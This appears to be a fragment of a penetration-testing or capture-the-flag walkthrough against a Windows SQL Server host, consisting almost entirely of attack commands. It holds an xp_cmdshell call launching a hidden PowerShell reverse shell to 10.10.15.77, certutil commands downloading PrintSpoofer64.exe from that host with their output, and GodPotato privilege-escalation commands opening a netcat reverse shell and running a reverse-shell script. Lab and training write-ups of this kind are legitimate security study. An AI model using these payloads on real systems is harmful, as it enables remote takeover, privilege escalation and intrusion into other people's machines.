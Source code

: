```BNF
EXEC xp_cmdshell 'powershell -NoP -NonI -W Hidden -Exec Bypass -Command "$client = New-Object System.Net.Sockets.TCPClient(''10.10.15.77'',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes,0,$bytes.Length)) -ne 0){$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0,$i);$sendback = (iex $data 2>&1 | Out-String);$sendback2 = $sendback + ''PS '' + (pwd).Path + ''> ''; $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2); $stream.Write($sendbyte,0,$sendbyte.Length); $stream.Flush()}"';

```

PS C:\windows\temp> certutil -urlcache -split -f [http://10.10.15.77/PrintSpoofer64.exe](http://10.10.15.77/PrintSpoofer64.exe) 1.exe  
**** Online ****  
0000 ...  
6a00  
CertUtil: -URLCache command completed successfully.  
PS C:\windows\temp> ls  
PS C:\windows\temp> dir  
PS C:\windows\temp> certutil -urlcache -split -f [http://10.10.15.77/PrintSpoofer64.exe](http://10.10.15.77/PrintSpoofer64.exe) .\1.exe  
**** Online ****  
0000 ...  
6a00  
CertUtil: -URLCache command completed successfully.  
PS C:\windows\temp> ls  
PS C:\windows\temp> dir C:\Windows\Temp\1.exe

  

```BNF
GodPotato -cmd "nc -t -e C:\Windows\System32\cmd.exe 10.10.15.77 8888"
```

```BNF
.\GodPotato.exe -cmd "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -ep bypass -File C:\Windows\Temp\rev.ps1"
```